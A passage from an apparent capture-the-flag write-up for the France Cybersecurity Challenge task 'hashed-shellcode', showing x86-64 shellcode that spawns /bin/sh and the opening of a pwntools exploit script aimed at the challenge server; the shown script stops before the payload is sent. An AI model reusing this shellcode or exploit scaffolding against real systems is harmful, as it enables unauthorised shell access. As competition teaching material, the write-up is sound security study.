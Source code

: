 If we try this input in `hashed-shellcode` we indeed get `52 5E 0F 05` and the program waits for our second payload, we can then send a simple `execve("/bin/sh", 0, 0)` shellcode this time!
```asm
mov rax, 0x0068732f6e69622f // "/bin/sh\0"
push rax
mov rdi, rsp
xor esi, esi
xor edx, edx
mov eax, 0x3b
syscall
```

Here's the final exploit
```py
from pwn import *
import pwn
import random as rnd
import struct as st
from time import sleep

context.arch = "amd64"
context.word_size = 64

file = "./hashed-shellcode"
args = []

io: process = None

speed = 0.2

def debug():
    gdb.attach(io, gdbscript=
    """

    """)
    input("debug")

def launch_remote():
    global file, io
    io = remote(host="challenges.france-cybersecurity-challenge.fr", port=2107)

def launch_local():
    global file, io
    pty = process.PTY
    io = process([file, *args], stdin=pty, stdout=pty)
    debug()

launch = launch_local
launch = launch_remote

launch()

u64 = lambda d: pwn.u64(d.ljust(8, b"\0")[:8])
u32 = lambda d: pwn.u32(d.ljust(4, b"\0")[:4])
u16 = lambda d: pwn.u16(d.ljust(2, b"\0")[:2])
sla = io.sendlineafter
sl = io.sendline
recv = io.recv
recvn = io.recvn
recvu = io.recvuntil

def getb(d, a, b):
    a_ = d.find(a)
    return d[a_+len(a):d.find(b, a_)]

```